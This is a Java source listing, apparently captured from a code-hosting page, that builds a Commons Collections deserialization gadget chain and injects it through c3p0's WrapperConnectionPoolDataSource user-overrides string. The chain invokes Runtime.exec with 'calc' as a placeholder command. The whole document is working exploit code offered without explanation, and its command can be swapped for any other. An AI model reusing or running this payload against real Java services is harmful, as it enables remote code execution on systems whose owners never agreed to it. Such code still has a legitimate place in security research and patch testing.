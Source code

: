 ```java
public class getPayLoad {
    public static void main(String[] args) throws Exception {
        Transformer[] transformers = new Transformer[] {
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer(
                        "getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", null}),
                new InvokerTransformer(
                        "invoke", new Class[]{Object.class, Object[].class}, new Object[]{Runtime.class, null}),
                new InvokerTransformer(
                        "exec", new Class[]{String.class}, new Object[]{"calc"})
        };

        Transformer[] fakeTransformers = new Transformer[] {new
                ConstantTransformer(1)};
        Transformer transformerChain = new ChainedTransformer(fakeTransformers);
        Map map = new HashMap();
        Map lazyMap = LazyMap.decorate(map, transformerChain);

        TiedMapEntry tiedMapEntry = new TiedMapEntry(lazyMap, "test");
        Map expMap = new HashMap();
        expMap.put(tiedMapEntry, "xxx");

        lazyMap.remove("test");

        Field f = ChainedTransformer.class.getDeclaredField("iTransformers");
        f.setAccessible(true);
        f.set(transformerChain, transformers);

        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(baos);
        oos.writeObject(expMap);
        oos.close();

        String ser = "HexAsciiSerializedMap:" + bytesToHexString(baos.toByteArray()) + "p";
        WrapperConnectionPoolDataSource exp = new WrapperConnectionPoolDataSource();
        // Thread.sleep(1000*3);
        exp.setUserOverridesAsString(ser);
    }

    public static byte[] toByteArray(InputStream in) throws IOException {
        byte[] classBytes;
        classBytes = new byte[in.available()];
        in.read(classBytes);
        in.close();
        return classBytes;
    }

    public static String bytesToHexString(byte[] bArray) {
        int length = bArray.length;
        StringBuffer sb = new StringBuffer(length);

        for(int i = 0; i < length; ++i) {
            String sTemp = Integer.toHexString(255 & bArray[i]);
            if (sTemp.length() < 2) {
                sb.append(0);
            }

            sb.append(sTemp.toUpperCase());
        }
        return sb.toString();
    }
```